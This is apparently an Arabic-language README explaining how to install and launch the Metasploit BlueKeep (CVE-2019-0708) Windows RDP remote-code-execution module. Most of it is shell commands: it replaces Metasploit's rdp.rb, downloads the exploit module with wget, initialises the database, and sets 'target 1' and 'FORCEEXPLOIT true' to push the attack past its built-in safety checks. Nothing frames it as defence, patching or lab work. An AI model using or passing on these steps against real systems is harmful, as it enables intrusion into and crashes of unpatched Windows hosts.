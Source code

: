 # bluekeep
CVE- 2019-0708 مرحبا هذه هي ثغرة الارديبي الاخيرة رقمها 
للثغرة عدة مشاكل ولغاية لحظة بدء هذا المشروع لم يقوم رابد7 الى الان بوضعها في تحديثات الميتا سبلويت وهذا الاصدر فيها عدة مشاكل  
طريقة تنصيب بسيطة يجب ان تقوم بتحديث الميتا سبلويت الى اخر اصدار عن  طريق جميع هذه الاوامر
msfupdate
apt-get update
apt-get upgrade
ثم تنفيذ الاوامر الاتية 
cd cd /usr/share/metasploit-framework/lib/msf/core/exploit/
rm rdp.rb
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
mkdir /usr/share/metasploit-framework/modules/exploits/windows/rdp/
cd /usr/share/metasploit-framework/modules/exploits/windows/rdp/
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
الان تم التنصيب يجب اعادة تشغيل قواعدالبيانات وتشغيل الميتا سبلويت لاستخدمها عن طريق الاوامر الاتية 
service postgresql start
msfdb init 
msfconsole
الان بعض الاوامر المهمة لدخول للثغرة واستخدامها
set target 1
set FORCEEXPLOIT true
هذه هي اهم الاوامر المهمة بعد الدخول للثغرة لتفادي بعض الاخطاء

